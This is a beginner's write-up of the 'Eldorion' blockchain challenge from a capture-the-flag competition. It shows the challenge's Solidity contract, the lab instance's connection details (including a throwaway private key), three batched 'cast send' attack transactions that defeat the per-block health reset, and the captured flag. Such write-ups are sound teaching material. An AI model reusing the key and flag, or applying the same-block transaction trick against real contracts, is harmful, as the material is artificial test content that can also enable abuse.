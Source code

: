 # Cyber Apocalypse CTF 2025: Tales from Eldoria

## Elderion
> "Welcome to the realms of Eldoria, adventurer. You’ve found yourself trapped in this mysterious digital domain, and the only way to escape is by overcoming the trials laid before you. But your journey has barely begun, and already an overwhelming obstacle stands in your path. Before you can even reach the nearest city, seeking allies and information, you must face Eldorion, a colossal beast with terrifying regenerative powers. This creature, known for its ""eternal resilience"" guards the only passage forward. It's clear: you must defeat Eldorion to continue your quest."


- **Category**: Blockchain 
- **Difficulty**: Very Easy
- **Author**: Alexct549

## Writeup

That's my first very blockchain challenge so i won't be very precise sorry 🙏

To help me out i read this [article](https://medium.com/@mostafaabdellatif/your-first-blockchain-ctf-challenge-59b12d04ac11) hope it helps someone like it did with me

Okay so we got 2 files but this is the one that it's useful to us now 

```python
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

contract Eldorion {
    uint256 public health = 300;
    uint256 public lastAttackTimestamp;
    uint256 private constant MAX_HEALTH = 300;
    
    event EldorionDefeated(address slayer);
    
    modifier eternalResilience() {
        if (block.timestamp > lastAttackTimestamp) {
            health = MAX_HEALTH;
            lastAttackTimestamp = block.timestamp;
        }
        _;
    }
    
    function attack(uint256 damage) external eternalResilience {
        require(damage <= 100, "Mortals cannot strike harder than 100");
        require(health >= damage, "Overkill is wasteful");
        health -= damage;
        
        if (health == 0) {
            emit EldorionDefeated(msg.sender);
        }
    }

    function isDefeated() external view returns (bool) {
        return health == 0;
    }
}
```

So from this we understand what the win conditions are, in this case we need to lower the health to 0

Also it gives us the attack functions but with some limitations (maximum 100 damage per attack)

The problem is that everytime the block timestamps advances (hence every attack) it refills his health to 300 😡

In this case the solution it's pretty intuitive, we need to send 3 attacks at the same time

We setup the servers and we get the relevant infromations

```bash
❯ nc 94.237.57.230 49577
1 - Get connection information
2 - Restart instance
3 - Get flag
Select action (enter number): 1
[*] No running node found. Launching new node...

Player Private Key : 0x3bc8a0323a47d50056d142060be6c8ba87a98c7d90860e068ae76b57573e4a5c
Player Address     : 0x678191Dbff2bEe9FC84aB468716b52f4f84fC9a8
Target contract    : 0xDc87A3E0713BC80066a284617e7f4b564af8dD88
Setup contract     : 0x6ef924c849d1f26e772a5B65845525B6069c4F9F
```

And then we craft our crazy payload using foundry but more specifically cast

```bash
NONCE=$(cast nonce 0x678191Dbff2bEe9FC84aB468716b52f4f84fC9a8 --rpc-url http://94.237.57.230:42840/)

cast send 0xDc87A3E0713BC80066a284617e7f4b564af8dD88 "attack(uint256)" 100 --from 0x678191Dbff2bEe9FC84aB468716b52f4f84fC9a8 --private-key 0x3bc8a0323a47d50056d142060be6c8ba87a98c7d90860e068ae76b57573e4a5c --rpc-url http://94.237.57.230:42840/ --nonce $NONCE &

cast send 0xDc87A3E0713BC80066a284617e7f4b564af8dD88 "attack(uint256)" 100 --from 0x678191Dbff2bEe9FC84aB468716b52f4f84fC9a8 --private-key 0x3bc8a0323a47d50056d142060be6c8ba87a98c7d90860e068ae76b57573e4a5c --rpc-url http://94.237.57.230:42840/ --nonce $((NONCE+1)) &

cast send 0xDc87A3E0713BC80066a284617e7f4b564af8dD88 "attack(uint256)" 100 --from 0x678191Dbff2bEe9FC84aB468716b52f4f84fC9a8 --private-key 0x3bc8a0323a47d50056d142060be6c8ba87a98c7d90860e068ae76b57573e4a5c --rpc-url http://94.237.57.230:42840/ --nonce $((NONCE+2)) &

wait
```

The nonce it's manually set so it doesn't give us a error

Let's see if it worked

```bash
❯ nc 94.237.57.230 49577
1 - Get connection information
2 - Restart instance
3 - Get flag
Select action (enter number): 3
HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
```
OH BABY A TRIPLE 💥💥💥

> HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
